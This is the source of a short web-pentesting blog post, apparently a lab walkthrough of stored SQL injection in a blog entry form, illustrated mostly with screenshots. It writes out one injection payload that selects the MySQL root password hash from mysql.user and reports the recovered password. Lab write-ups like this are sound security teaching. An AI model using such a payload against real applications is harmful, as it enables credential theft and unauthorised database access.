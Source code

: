 ```yaml
---
layout: post
title: SQL Injection -Stored (Blog)
categories:
  - Web-Pentesting
---
```


<br>..

![134](https://teckk2.github.io/assets/images/Web%20Pentest/A1/134.png)
![135](https://teckk2.github.io/assets/images/Web%20Pentest/A1/135.png)
<br>Sql syntax error
![136](https://teckk2.github.io/assets/images/Web%20Pentest/A1/136.png)
![137](https://teckk2.github.io/assets/images/Web%20Pentest/A1/137.png)
<br>Using this SQL syntax along with some input, we can query for version of the database, and for each further SQL query we have to Add Entry
![138](https://teckk2.github.io/assets/images/Web%20Pentest/A1/138.png)
![139](https://teckk2.github.io/assets/images/Web%20Pentest/A1/139.png)
<br>**teck',(select password from mysql.user where user='root' limit 0,1))#**
![140](https://teckk2.github.io/assets/images/Web%20Pentest/A1/140.png)
<br>And we got the password hash for mysql root.
![141](https://teckk2.github.io/assets/images/Web%20Pentest/A1/141.png)
<br>And the password is {bug}

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


